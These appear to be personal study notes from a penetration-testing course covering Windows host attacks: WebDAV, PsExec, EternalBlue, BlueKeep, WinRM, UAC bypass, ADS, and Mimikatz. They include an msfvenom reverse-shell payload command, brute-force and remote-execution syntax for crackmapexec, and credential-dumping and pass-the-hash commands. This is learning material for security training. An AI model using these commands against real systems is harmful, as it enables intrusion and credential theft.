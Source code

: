 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

Tools to use:
- Windows-Exploit-Suggester
- Windows-Kernel-Exploits
- In msf, there is a module called `local_exploit_suggester`

**Bypassing UAC with UACMe**

- Requirements: an account that is part of local admin group
- Bypassing will likely not work if it is set to the highest level
- UACMe is developed by @hfire0x and can be downloaded [here](https://github.com/hfiref0x/UACME)
- It works by abusing the inbuilt windows auteelevate tool
- works ranging from win7 to win10

in meterpreter, using pgrep is to grep the process id

UACMe is a very complicated tool, it is recommended to have a home lab with win7, win8,win8.1 and win10 as lab to test all options

**Windows Access Token**





**Alternate Data Streams**

- ADS is an NTFS file attribute and design to be compatible with macOS HFS
- Attackers can use ADS to hide malicious code and executables in legitimate files
- eg: notepad test.txt:secret.txt


**Dumping Password and Hashes**

- Very old version use LM hashes, modern are all NTLM
- All are stored in SAM database and it's locked when the computer is running, thus attacker has to use in-memory techniques to dump SAM hashes from LSASS process
- SAM database is encrypted with a syskey in modern windows
- Elevated/Admin privs are required in order to access and interact with LSASS process
- LM(LanMan) hashes are splited into 2 chunks and hashed with DES algorithm
- NTLM does not split the hash into 2 chunks, also case sensitive unlike LM, but it's not salted, which makes it still quite easy to crack


**Mimikatz**

- It extract hashes from lsass.exe
- msf got mimikatz inside which calls kiwi `load kiwi` to use it
- to run mimikatz locally, the first thing is to check priv `privilege::debug`
- `lsadump::sam` to dump SAM in mimikatz
- Display log on password using `sekurlsa::logonpassword`
**(note that commands in kiwi and mimikatz are different)**

**Pass-The-Hash**

- After capturing hashes or clear-text passwords, we can authenticate it with the target legitimately
- There are many tools to use the pass the hash technique but here we will utilize msf PsExec module and Crackmapexec
- Remember sometimes just the NTLM hash will not work with PsExec module, so they might need the LM hash as well, the format will be `LM:NTLM`
  
- For crackmapexec, we can say `crackmapexec smb <IP> -u <username> -H "NTLM Hash" -x <command>` //no need LM hash here


## Linux

- Frequently Exploited Linux Services: Shellshock, FTP, 




